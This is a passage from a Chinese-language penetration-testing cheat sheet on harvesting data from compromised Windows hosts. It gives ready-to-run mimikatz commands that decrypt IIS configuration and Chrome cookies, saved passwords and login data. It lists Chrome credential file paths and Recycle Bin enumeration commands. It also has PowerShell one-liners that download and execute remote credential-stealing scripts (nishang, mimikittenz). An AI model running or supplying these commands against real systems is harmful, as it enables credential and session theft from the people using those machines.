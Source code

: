 mimikatz.exe privilege::debug log "iis::apphost /in:"%systemroot%\system32\inetsrv\config\applicationHost.config" /live" exit
1.8 windows 回收站的信息获取
其中$I开头的文件保存的是路径信息 $R保存的是文件

FOR /f "skip=1 tokens=1,2 delims= " %c in ('wmic useraccount get name^,sid') do dir /a /b C:$Recycle.Bin%d\ ^>%c.txt
$Recycler = (New-Object -ComObject Shell.Application).NameSpace(0xa);

foreach($file in $Recycler.items()){$file.path;$file.ExtendedProperty("{9B174B33-40FF-11D2-A27E-00C04FC30871} 2")+''+$file.name;$file.Type}
1.9 chrome为例 的密码和cookies获取
%localappdata%\google\chrome\USERDA~1\default\LOGIND~1

%localappdata%\google\chrome\USERDA~1\default\USERDA~1

%localappdata%\google\chrome\USERDA~1\default\cookies

chrome的用户信息保存在本地文件为sqlite 数据库格式
2.0 mimikatz+WebBrowserPassView.exe获取浏览器的密码和cookie信息
mimikatz 读取chrome cookies

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\cookies /unprotect" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\USERDA~1" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\LOGIND~1" exit //读chrome密码
2.1 常用的信息收集工具介绍
passrec 工具包里面包含常用的密码恢复工具；

是内网渗透的好帮手
vnc
mail
vpn
router
ie
firefox
chrome 等等，有兴趣可以自己测试

2.2 powershell 常用工具的信息收集工具
FTP访问、共享连接、putty连接 驱动、应用程序、hosts 文件、进程、无线网络记录

powershell "IEX (New-Object Net.WebClient).DownloadString(' https://github.com/samratashok/nishang/tree/master/Gather/Gather/Get-Information.ps1'); Get-Information"
正则过滤进程密码，已测windows7

powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/putterpanda/mimikittenz/master/Invoke-mimikittenz.ps1'); Invoke-mimikittenz

sqlserver密码获取工具Get-MSSQLCredentialPasswords.psm1 //未测
2.3 windows log的信息查看
windows自带的命令就可以

日志查看收集

